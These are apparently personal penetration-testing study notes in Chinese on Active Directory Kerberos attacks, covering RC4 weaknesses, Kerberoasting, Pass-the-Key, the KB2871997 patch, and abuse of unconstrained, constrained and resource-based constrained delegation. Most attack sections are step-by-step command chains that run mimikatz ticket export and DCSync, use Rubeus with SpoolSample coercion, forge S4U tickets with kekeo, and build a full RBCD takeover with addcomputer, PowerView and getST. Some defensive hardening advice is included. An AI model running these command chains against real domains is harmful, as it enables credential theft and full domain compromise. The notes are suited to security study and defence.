目前只有Windows 7 / Server 2008 R2 及更早版本默认使用“RC4_HMAC_MD5”加密算法。
Windows 11 23H2 及更高版本，或加入了现代域的 Windows Server 2016/2019/2022），域内 Kerberos 认证的默认主力算法是：AES256-CTS-HMAC-SHA1-96 (通常作为最高优先级的默认选择) 和 AES128-CTS-HMAC-SHA1-96。
AES算法优势：安全性碾压：相比于 RC4 和 DES，AES 算法至今没有被实用化的数学破解方法，抗暴力破解能力极强。内置加盐机制：在 Kerberos 使用 AES 加密时，它会结合用户的密码哈希和一个随机生成的盐值（Salt）来衍生密钥。这意味着，即使两个用户的密码完全相同，由于盐值不同，他们最终用于 Kerberos 加密的密钥也完全不同。这直接封堵了过去利用 RC4 进行大规模离线撞库（如Kerberoasting）的捷径。
尽管 AES 是默认标准，但在过去几年里，为了兼容老旧的打印机、NAS 设备或上古级别的 Windows 7 系统，很多企业域内依然悄悄保留着 RC4-HMAC-MD5作为降级备选。
但是，这种情况在 2026 年发生了剧变。
微软为了彻底根除 RC4 带来的安全隐患（如我们之前讨论的 Kerberoasting），在 2026 年 1 月的累积更新中启动了一个“杀手锏”计划：
2026年1月更新：域控制器（DC）开始默认移除 RC4 作为“假定加密类型”，并增加了 RC4 使用审计日志。
2026年4月更新：进入“强制阻断模式”，默认直接拦截通过 RC4 申请的票据。
2026年7月更新：彻底锁死，连回退到审计模式的选项都将消失。
结论：现在如果你的域内还有系统试图用 RC4 进行认证，不仅不会成功，还会在域控的安全日志里触发高频警报。
*漏洞产生原因：
在 Kerberos 协议中，当用户想要访问某个服务（比如 SQLService或 HTTP）时，需要先向域控（KDC）申请一张服务票据（TGS）。域控在发放这张票据时，会用目标服务账户的密码哈希（Hash）来对票据进行加密。
在 Kerberos 的 RC4-HMAC 加密模式中，用于加密票据的密钥（K1）是直接由服务账户的 NTLM Hash派生出来的。而且很多管理员在配置服务账户（如 SQL 服务、IIS 服务）时，为了方便记忆，往往设置得非常简陋（比如 Password123!、SQL2019等）。因为加密密钥的熵值完全依赖于这个“弱密码”，再加上 RC4 极快的运算速度，攻击者拿着从域控轻易申请来的“加密票据”，就可以在本地毫无阻碍地狂轰滥炸。
RC4算法是一种流密码，算法逻辑简单轻量，运算速度快，同意的时间AES只能枚举万次，而RC4可以枚举百万次甚至千万次。
*Kerberoasting 的攻击链路如下：
1.侦察：攻击者作为普通域用户，不需要任何特殊权限，只需在域内发起 LDAP 查询，找到所有注册了 ServicePrincipalName (SPN)的账户（这些通常是运行各种服务的账户）。
2.请求票据：为这些服务账户申请服务票据（TGS-REP）。
3.提取密文：从返回的票据中，提取出被服务账户密码加密的密文块。
4.离线破解：将提取出的密文拿到自己的高性能服务器上，使用字典进行离线暴力破解。
密钥传递攻击（PTK）
简单理解，本质上和哈希传递攻击手法一样，只是将NTLMhash换成AES密钥。
攻击利用方式：（基本等同PTH）
-
第一步：mimikatz sekurlsa::ekeys #查看本机进程
lsass.exe中的aes256_hmac密钥。 -
第二步：mimikatz sekurlsa::pth /user:域用户名 /domain:域名或IP /aes256:aes256值 #Mimikatz 接收到指令，它不会去连远程机器的 SMB 端口（那是 NTLM 干的事），而是直接向域控（KDC）发起 Kerberos AS-REQ 请求。
PTK = Pass The Key，当系统安装了KB2871997补丁且禁用NTLM的时候，
PTK应用场景的极端前置条件：
A.域环境中一切认证优先去使用kerberos认证，NTLM认证只是一种降级认证的手段，而传统的PTH正是基于NTLM认证实现的。所以一旦彻底进行NTLM认证，域内的PTH手段会失效。
关闭NTLM认证的设置：进入组策略---->计算机配置-> 策略-> Windows 设置-> 安全设置-> 本地策略-> 安全选项,找到 网络安全性: 基于 NTLM 的服务器身份验证(Network security: Restrict NTLM: Incoming NTLM traffic`)。将其设置为 拒绝所有账户(Deny all accounts)。
B.还没完：以为只要禁用了 NTLM，攻击者就拿不到 Hash 了。其实不然。在默认的 Kerberos 通信中，为了兼容老系统（如 Windows XP/2003），域控默认依然支持 RC4_HMAC_MD5加密算法。而在 Kerberos 体系中，RC4算法使用的密钥，恰恰就是你熟悉的 NTLM Hash 如果放任 RC4 开启，攻击者依然可以通过请求 Kerberos 票据（AS-REQ）来获取用户的 NTLM Hash（即 Kerberoasting 攻击）。
因此，要强制系统只认 AES，必须精准剔除其他加密算法。
关闭RC4算法：参考 “Kerberoasting 攻击 ” 内容。
以上为极端场景，大部分情况下会因为考虑到老旧系统的兼容，不会完全封死。
但可以思考下极端场景下，可用的攻击手段：
1. PTT：票据传递的手段依然可用。Kerberoasting肯定废了
2. PTK：提取 aes256_hmac密钥，进行密钥传递攻击。
3.本地账户间的PTH：只是禁用域内的NTLM，但本机administartor账户不在域内，所以依然可以使用PTH横向。
KB2871997补丁对域环境的影响
安装 KB2871997 补丁是 Windows 安全演进史上的一个重要分水岭。在渗透测试和内网攻防的语境下，这个补丁的主要目的是“提高凭据保护能力，遏制横向移动”。
它对系统环境和攻击手法产生了多维度的深远影响，我们可以从“防守收益”和“攻击受限”两个视角来拆解，同时澄清一个业内流传已久的“大误解”。
🛡️ 一、 对系统的核心影响（防守视角）
从系统底层和安全机制来看，KB2871997 带来了四项至关重要的安全加固：
1. 阻断内存中的“明文密码泄露”
在早期的 Windows 系统中，用户输入密码登录后，系统为了支持某些旧的认证协议（如 WDigest），会习惯性地把明文密码留在内存（lsass.exe进程）中。这就导致只要黑客提权成功，用 Mimikatz 敲一行命令就能把密码明文扒出来。
打了补丁后的变化：除了 WDigest 协议（需手动配置禁用），系统默认不再在任何环节存储明文密码。这意味着，想直接从内存中 sekurlsa::logonpasswords摘取密码的时代一去不返了。
2. 引入“受保护用户组”（Protected Users）
补丁新增了一个特殊的 Active Directory 安全组——Protected Users。
打了补丁后的变化：只要把高权限账号（如域管理员）拉进这个组，系统就会强制对该用户应用最高安全标准：比如禁止使用 NTLM 认证、禁止使用 Kerberos 的弱加密算法（如 DES 和 RC4）、并强制要求在登录时使用智能卡或生物识别等多因素认证。这从根本上废掉了针对这些账号的多数凭据窃取和复用攻击。
3. 增设“本地账号”动态墙
为了方便管理员阻断本地账号的网络登录，补丁在系统底层悄悄创建了两个不同的“隐形组别”：
LOCAL_ACCOUNT（所有本地账号）
LOCAL_ACCOUNT_AND_MEMBER_OF_ADMINISTRATORS_GROUP（属于本地管理员组的本地账号）
打了补丁后的变化：管理员可以通过组策略的“拒绝从网络访问这台计算机”功能，精准一键封杀所有本地账号的远程登录权限，从而切断黑客拿着本地管理员哈希在内网乱撞的横向移动路径。
4. 开启“受限管理模式”的远程桌面（Restricted Admin RDP）
打了补丁后的变化：系统开始支持一种特殊的远程桌面连接方式——Mstsc.exe /restrictedadmin。在这种模式下，你不需要知道目标用户的明文密码，而是直接使用当前机器的凭据或票据进行 RDP 登录。这不仅方便了运维排障，也避免了在跳转机上留下新的凭据痕迹。
⚔️ 二、 对渗透测试/黑客手法的影响（攻击视角）
对于拿下一台机器后准备在内网“横向起飞”的黑客来说，KB2871997 就像是一道升高的围墙：
1. 传统的“万能哈希传递”被泼了冷水
在打这个补丁之前，只要拿到了管理员的 NTLM Hash，就可以肆无忌惮地在内网进行 Pass-the-Hash（哈希传递）攻击。
打了补丁后的变化：由于补丁加强了对本地账户的管控，黑客在使用非默认的本地管理员哈希进行 Pth 时，会发现无法连接远程主机的文件共享（SMB），也无法通过 WMI 或 PsExec 执行命令。
2. 逼迫攻击者走向“高级协议”和“高级密钥”
当 NTLM 相关的利用受阻后，黑客的攻击链路被迫发生偏转：
转向 Kerberos 体系：既然 NTLM 走不通，那就转而去请求 Kerberos 票据（AS-REQ），这就催生了诸如 Kerberoasting（爆破服务票据）或直接使用 AES Key 进行 PTK（Pass-the-Key） 的攻击手法。
死磕默认管理员（SID 500）：补丁留了一个“后门”——默认的 Administrator 账号（其 SID 结尾必定是 -500）依然可以进行哈希传递。因此在实战中，黑客会变得对 SID=500的账号极其敏感。
💣 三、 业内最大的误解：非500账号不能PTH到底怪谁？
这里有一个在渗透圈流传了很久的误区：很多人认为“打了 KB2871997 后，非 RID 500 的本地管理员就不能 PTH 了，这都是补丁的功劳”。
真相是：这口锅不该 KB2871997 一个人背。
真正在幕后发挥作用的是 Windows 的 UAC（用户账户控制）机制。
当非 RID 500 的本地管理员尝试通过网络进行远程认证（比如 PTH）时，UAC 会觉得“这人我不认识”或者“权限不够”，从而剥离掉该网络令牌的管理员权限（即所谓的 Admin Approval Mode）。因为缺乏足够的权限，自然就无法远程连接了。
如果你在一台未打 KB2871997 的机器上，把注册表 LocalAccountTokenFilterPolicy设为 1，非500账号依然可以 PTH。
反之，即便打了 KB2871997，只要目标主机上的 UAC 被关闭或注册表被修改，非500账号照样能打。
💡 总结与启示
KB2871997 并没有从根本上“杀死”哈希传递或内网渗透，它的真正作用是大幅度拉高了攻击者的作案成本，并逼着攻击者的 TTP（战术、技术和过程）向更高级演进。
对于企业防守方而言，仅仅打上这个补丁是远远不够的，更需要配合禁用 WDigest 明文缓存、将高权限账号加入 Protected Users 组、以及严格限制本地管理员的内网横向移动权限，才能真正发挥这颗补丁的最大价值。
委派
委派是一种域内应用模式，是指将域内用户账户的权限委派给服务账号，服务账号因此能以用户的身份在域内展开活动（请求新的服务等）。
考虑这个场景：用户访问一个Web应用，Web应用需要以该用户的身份去访问后端SQL数据库。问题来了——Web服务器如何代表用户去认证SQL服务器？Kerberos委派就是解决这个问题的机制：允许一个服务"代表"用户去访问另一个服务。
设置委派时需要在服务账户设置委派。
委派场景：
用户 → Web服务器 → （以用户身份）→ SQL数据库
↑ 这里需要委派
域委派分类：
1、非约束委派(Unconstrained Delegation, UD) ：指用户账户将自身的TGT转发给服务账户使用
2、约束委派(Constrained Delegation, CD) ：通过S4U2Self和S4U2Proxy两个扩展协议限制服务账户只能访问指定服务资源
3、基于资源的约束委派(Resource Based Constrained Delegation) ：委派的管理移交给服务资源进行控制
账户分类：
机器账户：计算机本身名称的账户，在域中computers组内的计算机。
主机账户：计算机系统的主机账户，用于正常用户登入计算机使用。
服务账户：计算机服务安装时创建的账户，运行服务时使用，不可登入计算机。
非约束委派攻击
非约束委派的原理简述：
它的逻辑非常简单粗暴：只要用户同意，被配置了非约束委派的服务账号，就可以拿用户的“万能门票”（TGT）去访问域内任意其他服务。
非约束委派的本质是“客户端无条件的凭证转交”。
当一台机器或账户被配置了非约束委派后，它就拥有了一个特权：向客户端“索要”TGT的资格。
标志下发：当用户请求访问这台委派机器时，KDC 会在发放的服务票据（ST）中设置一个 OK-AS-DELEGATE标志位。
主动奉上：用户的客户端（如工作站) 收到这个标志位后，会在后续向目标服务发起认证请求时，自动将用户当前的 TGT 一并封装在 AP-REQ 数据包中发送过去。
内存缓存：目标服务接收到请求后，会将用户的 TGT 解密并缓存到本地的内存（Lsass）中。
滥用提权：由于拥有了用户的 TGT，该服务便可以直接代表这名用户，以内置的 S4U2Proxy 扩展协议向域控申请访问域内任意服务的票据，造成越权横向移动。
利用场景：
攻击者拿到了一台配置非约束委派的机器权限，可以诱导域管来访问该机器，然后得到管理员的TGT，从而模拟域管用户。
复现配置：
1、信任此计算机来委派任何服务
2、setspn -U -A priv/test [服务账户名] 为服务账户名设置SPN，只有设置SPN后才可以设置委派。
判断查询哪些账户上设置非约束委派（查机器账户和服务账号）：
查询域内设置了非约束委派的*服务账户*：
AdFind -b "DC=god,DC=org" -f "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" dn
查询域内设置了非约束委派的*机器账户*:
AdFind -b "DC=god,DC=org" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" dn
--------------------------------------------------------------------------------------------------------------
*利用思路1：诱使域管理员访问机器（这种攻击手段和从上面的“从机器历史缓存提取TGT票据”几乎一样）
利用条件：
1、需要拿到委派机器的本地Administrator权限（只有这个权限可以看到所有票据缓存）
2、域内主机的机器账户或服务账户开启非约束委派
3、域控管理员远程访问委派机器的委派服务，这样域控管理员的TGT票据会进行缓存（主动或被动）
利用过程：
1、域控与委派机器通讯
主动：net use \\webserver
2、导出票据到本地（本地管理员权限）
mimikatz sekurlsa::tickets /export
3、导入票据到内存
mimikatz kerberos::ptt [0;fece8]-2-0-60a00000-Administrator@krbtgt-GOD.ORG.kirbi
4、连接通讯域控
shell dir \\owa2010cn-god\c$
*利用思路2：结合打印机漏洞
利用条件：DC 2012以上
1、Administrator权限监听
2、打印机服务spooler开启（默认开启）
利用过程：
1、监听来自DC的请求数据并保存文件
shell Rubeus.exe monitor /interval:2 /filteruser:dc$ >hash.txt
域用户运行SpoolSample强制让DC请求
shell SpoolSample.exe dc web2016
2、Rubeus监听到票据并导入该票据
shell Rubeus.exe ptt /ticket:xxx
3、使用mimikatz导出域内Hash
mimikatz lsadump::dcsync /domain:xiaodi8.com /all /csv
4、使用wmi借助hash横向移动
python wmiexec.py -hashes :0b17b318cd59bb4e90f5a528437481a9 xiaodi8.com/administrator@dc.xiaodi8.com -no-pass
*利用思路3：结合PetitPotam
适用于windows其他版本
结合NTLM Relay监听，后续讲到
-----------------------------------------------------------------------------------------------------------
给机器账户和服务账户配置委派有什么区别
1. 核心区别：权限级别与“波及范围”
🖥️ 场景一：配置在机器账户上（Computer Object）
权限级别：系统级（SYSTEM / Local System）
机器账户代表的是整台服务器。一旦在这台机器的 AD 属性上勾选了“信任此计算机，委派任何服务”，这台电脑上运行的几乎所有系统级服务（如 IIS、SQL Express 默认实例、打印机后台处理程序等）都会继承这个“抓票”能力。
波及范围：全网（只要流量经过此机）
因为机器账户是非约束的，任何以系统身份（Network Service 等）运行的服务，在接收用户请求时，都会在本地内存中留下用户的 TGT。
👤 场景二：配置在服务账号上（Service Account）
权限级别：应用级（特定域用户身份）
服务账号本质上就是一个普通的域用户（只是不能交互式登录）。只有在你手动将某个应用程序（如 SQL Server、自定义的 Web 后端）配置为专门使用这个服务账号运行时，它才会生效。
波及范围：仅限于该应用
只有通过这个特定服务入口进来的用户，其 TGT 才会被该服务账号缓存。机器上跑的其他无关服务完全不受影响。
2. 实战攻防：黑客视角的“性价比”与“隐秘度”
假设你是一个内网渗透黑客，眼前有两台机器：A机（配置了机器账户非约束委派）、B机（配置了某个服务账号的非约束委派）。
🎯 攻击 A 机（机器账户）：核弹级大丰收
诱捕成本低：你只需要诱导一个域管（DA）访问 A 机上的任意一个默认共享（比如通过打印机漏洞 MS-RPRN强制回连，或者社会工程学骗域管看一个 SMB 共享路径）。
收获巨大：只要域管的凭证一过来，A 机的内存里就会留下域管的 TGT。你拿出 Mimikatz，一键提取 TGT，直接拿着这张票去域控（DC）“刷脸”，整个域瞬间沦陷。
🎣 攻击 B 机（服务账号）：精准钓鱼，步步惊心
诱捕门槛高：你必须精确知道是哪个业务系统在用这个服务账号。你不能随便发个 SMB 请求就去骗 TGT，因为默认的 SMB 服务是以机器账户运行的。你需要构造特定的请求，去访问那个特定的业务端口（比如 HTTP 或特定 SQL 端口）。
局限性大：就算你拿到了 TGT，这个服务账号往往权限很低，你可能还得面临二次提权。
约束委派攻击 (有点复杂，还没有捋顺)
原理：
由于非约束委派的不安全性，微软在windows server 2003中引入了约束委派，对Kerberos协议进行了拓展，引入了SService for User to Self (S4U2Self)和 Service for User to Proxy (S4U2proxy)。
注意点：
设置约束委培配置时，需要先选择主机 再选择 服务。这说明，只能对指定机器上的指定服务进行委派。相比于非约束委派，攻击面非常小。而且如果约束委派指定的服务不重要，甚至没有攻击价值。
利用场景：
如果攻击者控制了服务A的账号，并且服务A配置了到域控的CIFS服务的约束性委派。则攻击者可以先使用S4u2seflt申请域管用户（administrator）访问A服务的ST1，然后使用S4u2Proxy以administrator身份访问域控的CIFS服务，即相当于控制了域控。
攻击链：
阶段一：前期交互与情报收集（踩点与准备）
确立立足点：攻击者首先需要在内网中拿下了一台机器，并提取到了某个服务账户（如笔记中的 webadmin）的明文密码或 NTLM Hash。
侦察委派关系：攻击者使用该服务账户的权限，查询域内的 LDAP 信息，寻找配置了约束委派的目标。一旦发现 webadmin被允许委派到域控（DC）的 CIFS（文件共享）服务，便锁定了攻击目标。
阶段二：Kerberos 票据伪造（S4U 协议滥用）
这是攻击链的核心，完全绕过了用户的原始密码验证：
获取自身 TGT：利用 webadmin的密码/Hash，通过 Kerberos AS 协议向域控请求并拿到 webadmin自身的 TGT（票据授予票据）。
S4U2Self（冒充请求）：拿着 webadmin的 TGT，使用 S4U2Self 协议向域控“撒谎”：“我是管理员（Administrator），请给我一张访问我自己的票据”。域控校验 TGT 合法，便返回一张不可转发的 ST（服务票据）。
S4U2Proxy（跨服务委派）：拿着上一步获取的 ST，通过 S4U2Proxy 协议向域控请求：“我有管理员的权限，现在请以管理员的名义给我一张访问域控 CIFS 服务的票据”。由于 webadmin配置了约束委派，域控放行并返回了以域管身份访问域控 CIFS 的 ST。
阶段三：横向移动与权限收割（Pass-the-Ticket）
注入票据：攻击者将拿到的“域管访问域控CIFS”的 ST 通过 Mimikatz 等工具注入到当前会话的内存中（Pass-the-Ticket 攻击）。
越权操作：此时，攻击者无需知道域管密码，即可通过 SMB 协议以域管权限列出域控的 C 盘目录（dir \\dc\c$），随后可通过 PsExec 等手段在域控上上线木马，彻底拿下整个域。
复现配置：
1、机器设置仅信任此计算机指定服务-cifs
2、用户设置仅信任此计算机指定服务-cifs
利用思路：使用机器账户票据
利用条件：kekeo Rubeus getST
1、需要Administrator权限
2、目标机器账户配置了约束性委派
判断查询：
查询机器用户（主机）配置约束委派
AdFind -b "DC=god,DC=org" -f "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto
查询服务账户（主机）配置约束委派
AdFind -b "DC=god,DC=org" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto
kekeo利用步骤：
1、获取webadmin用户的票据
kekeo "tgt::ask /user:webadmin /domain:god.org /password:admin!@#45 /ticket:administrator.kirbi" "exit"
kekeo "tgt::ask /user:webadmin /domain:god.org /NTLM:518b98ad4178a53695dc997aa02d455c /ticket:administrator.kirbi" "exit"
2、利用webadmin用户票据请求获取域控票据
kekeo "tgs::s4u /tgt:TGT_webadmin@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi /user:Administrator@god.org /service:cifs/owa2010cn-god.god.org" "exit"
3、导入票据到内存
mimikatz kerberos::ptt TGS_Administrator@god.org@GOD.ORG_cifs~owa2010cn-god.god.org@GOD.ORG.kirbi
4、连接通讯域控
shell dir \\owa2010cn-god.god.org\c$
--------------------------------------------------------------------------------------
约束委派的情况下，在服务账户上配置和在机器账户上配置的区别
和非约束的情况不同。
在约束性委派情况中，在服务账户设置委派 和 在机器账户上设置委派 在攻击角度上看没有区别，因为约束委派本身就指定了服务，在这两种账户上设置委派不会对触发门槛造成影响
关于约束和非约束委派的思考
我注意到，非约束委派情况下，会在委派机器上直接缓存TGT；而在约束委派的情况下，则需要账户自己去申请票据。原因如下：
1. 非约束委派：野蛮生长的“全权委托”
底层逻辑：信任至上，自带凭证。
历史原因： 早期设计为了最大化的兼容性，微软觉得“既然你都敢把这台服务器设为委派了，那我就当你是完全可信的”。
运行机制： 当有高权限用户（比如域管）访问这台非约束委派机器时，不仅要证明自己是域管，还要把自己的 TGT（黄金票据） 一并交给这台机器缓存起来。
结果： 这台机器拿到了域管的 TGT，就等于拿到了域管的“万能钥匙”。它想去访问内网哪台机器（比如域控），就直接用这把钥匙去 KDC 申请对应服务的票据。整个过程，KDC 是不介入“委派转发”这个动作的，它只负责常规的售票。
2. 约束委派：合规管控的“专项审批”
底层逻辑：权限收紧，按需申请。
历史原因： 随着网络安全发展，非约束委派的风险暴露无遗。微软在 Win 2003 R2 引入了 S4U 协议，目的就是把“申请票据”的主动权收回到 KDC 手里，防止服务乱用用户凭证。
运行机制： 服务账户（如 webadmin）根本没有用户的 TGT。它如果想代替用户去访问另一个服务，必须拿着自己的 TGT 作为担保，去向 KDC 发起 S4U2Proxy 请求。
结果： KDC 会严格审查 AD 里的策略（“嘿，服务 A 真的被允许访问服务 B 吗？”）。只有审查通过，KDC 才会专门为它签发一张只能访问特定服务 B 的 ST（服务票据）。没有 KDC 的审批，服务账户寸步难行。
资源约束委派攻击
一、 为什么会有“基于资源的约束委派”？（痛点的催生）
在 RBCD 诞生之前，域内只有两种委派方式：非约束委派和约束委派。但它们都有极其致命的痛点：
非约束委派（危险分子）： “你要帮我取个快递？行，把你家大门钥匙给我吧！”
**痛点：** 只要用户同意，服务就能拿到用户的“万能钥匙（TGT）”。一旦这台服务被黑，用户的所有权限都泄露了。**风险极高，域管基本不敢轻易开启。**
传统约束委派（高冷官僚）： “你要帮我取个快递？行，但你只能去菜鸟驿站，而且必须经过我（域控）盖章批准。”
**痛点：** 虽然安全（限制了只能访问特定服务），但**配置权限太高了！** 想要配置传统约束委派，你必须拥有域管理员的权限（因为要修改服务账户的 `msDS-AllowedToDelegateTo`属性）。
**现实窘境：** 想象一下，公司有个几百个微服务的前端 Web 服务器，每次新增一个数据库连接，前端小弟都要跪求域管大哥帮忙在域控上改配置。**运维效率极低，域管成了业务瓶颈。**
为了打破这种“要么不安全，要么太麻烦”的僵局，微软在 Windows Server 2012 R2 中引入了 基于资源的约束委派（RBCD）。
二、 RBCD 是什么？（一句话道破本质）
RBCD 的本质，就是把“谁能访问我”的决定权，从域控（全局管理员）手里，下放给了“资源本身的管理员”。
传统约束委派是“前端决定去哪”： 我在我的服务 A 上打个勾，允许我去访问服务 B。（需要域管权限配置前端）
RBCD 是“后端决定谁能动我”： 我在我的服务 B 上设个白名单，只允许服务 A 代表用户来访问我。（只需服务 B 的管理员权限）
在底层属性上，它不再修改前端的 msDS-AllowedToDelegateTo，而是修改了后端目标计算机/服务的一个新属性：msDS-AllowedToActOnBehalfOfOtherIdentity。
三、 RBCD 在实际配置中的特点。
- 在约束委派中，需要选择指定机器和可委派服务。但RBCD中，仅可在资源服务器设置信任的账户SID，无需明细具体可委派的服务。
- 在非约束委派和约束委派时，配置在机器账户和服务账户都可以。但在RBCD中，只能在机器账户上配置，否则不会生效。
利用前必须知道事项：
1.域里有一个著名的组策略限制：普通域用户默认最多只能在域中创建 10 个机器账户（ms-DS-MachineAccountQuota默认为 10）
2.在域里，普通域用户是没有权限随便去修改别人家机器的属性的。那什么时候你才能修改呢？在 Windows 域的默认机制里，谁把一台机器加进域，谁就是这台机器的“Creator Owner”（创建者所有者）。这个“创建者”对这台机器拥有隐式的“完全控制（GenericAll）”权限！
所以，笔记里查“同一个账户加入”的真正目的是：一句话总结这层逻辑：找同一创建者，是为了找到一个可以对目标机器下手（修改属性）的权限跳板。
3. Acount Operators组成员可修改域内任意主机的msDS-AllowedToActOnBehalfOfOtherIdentity属性。(除DC)
攻击的本质：利用共同创建者特权 或者 组权限，将目标机器委派参数修改为自行构造的机器账户SID，伪造任意用户的ST票据。
利用思路：
发现域内有两台或以上计算机是共同的创建者 或者 Acount Operators组成员的账户是被自己可控的，然后创建可利用机器账户，利用共同创建者的特点，将目标机器的msDS-AllowedToActOnBehalfOfOtherIdentity参数修改为自建机器账户的SID，最后通过自建机器账户委派任意账户的票据（包括域管理员）
攻击的前提：
1、允许创建机器账户（默认情况下普通域内账户均有权限创建，上限为10个）
2、两台或以上计算机是共同的创建者 或者 当前利用的账户在Acount Operators组中
攻击的目标：
1、若满足 “两台或以上计算机是共同的创建者 ” 这个条件，攻击的目标共是 同通创建者的其他机器。
2、若满足 “当前利用的账户在Acount Operators组中” 这个条件，攻击目标是 域内除AD的所有机器。
利用过程：
1、判断是否有利用条件：
查询被域用户创建的机器账户列表:（关键在这一步，看看内网机器有没有是同一个SID，有就表示它们有共同创建者）
shell AdFind.exe -b "DC=xiaodi,DC=local" -f "(&(samAccountType=805306369))" cn mS-DS-CreatorSID
根据查询出来的sid找出对应的用户名：
shell AdFind.exe -b "DC=xiaodi,DC=local" -f "(&(objectsid=S-1-5-21-1695257952-3088263962-2055235443-1104))" objectclass cn dn
or 判断当前账户是否在Acount Operators组中（以下命令会列出域内在Acount Operators组中的账户）
shell adfind.exe -h [域控IP]:389 -s subtree -b CN="Account Operators",CN=Builtin,DC=xiaodi,DC=local member
2、开始利用新增机器账户（三种方法进行创建，前两种要输入本机密码，第三种不用，具体选哪种根据实际自行判断。）
添加一个机器账户，用于申请票据
# 使用addcpmputer创建机器账户
python addcomputer.py xiaodi8.com/web2016:Xiaodi12345 -method LDAPS -computer-name test01\$ -computer-pass Passw0rd -dc-ip 192.168.139.11
# 使用bloodyAD工具创建机器账户
python bloodyAD.py -d redteam.lab -u web2016 -p 'Xiaodi12345' --host 192.168.139.11 addComputer test01 'Passw0rd'
# 使用PowerMad工具创建机器账户
powershell Set-ExecutionPolicy Bypass -Scope Process
powershell Import-Module .\Powermad.ps1;New-MachineAccount -MachineAccount [机器账户名] -Password $(ConvertTo-SecureString "123456" -AsPlainText -Force)
查询新建机器账户的SID值（后边有用）
powershell Import-Module .\PowerView.ps1;Get-NetComputer [机器账户名] -Properties objectsid
3、利用新增机器账户修改委派属性满足申请访问目标条件
修改目标主机的资源委派属性（目标机器:data）msds-allowedtoactonbehalfofotheridentity
修改目标主机委派属性：
powershell import-module .\powerview.ps1;$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;[自行创建机器账户的SID值])";$SDBytes = New-Object byte[] ($SD.BinaryLength);$SD.GetBinaryForm($SDBytes, 0);Get-DomainComputer [目标机器名:data] | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
验证和清除委派属性：（可以先不用，后续排查问题再用）
powershell import-module .\powerview.ps1;Get-DomainComputer data -Properties msds-allowedtoactonbehalfofotheridentity
powershell import-module .\powerview.ps1;Set-DomainObject data -Clear 'msds-allowedtoactonbehalfofotheridentity' -Verbose
4、利用修改后的属性申请目标请求票据后导入利用
利用serviceA申请访问data主机cifs服务票据：
python getST.py -dc-ip 192.168.3.33 xiaodi.local/serviceA\$:123456 -spn cifs/datax.xiaodi.local -impersonate administrator
导入票据到内存：
mimikatz kerberos::ptc administrator.ccache
连接利用票据：
shell dir \\data.xiaodi.local\c$
攻击链梳理
拿到域内普通主机 —> 信息搜集：域架构、本机敏感文件 —-> 提权 —-> 提取ntlm-hash —> 利用hash爆破明文，利用CME攻击枚举域内密码是否一致，攻击服务 —-> 枚举口令成功成功根据协议采用PTH方式 —-> PTH 所用协议被堵死，利用NTML-hash生成票据 —>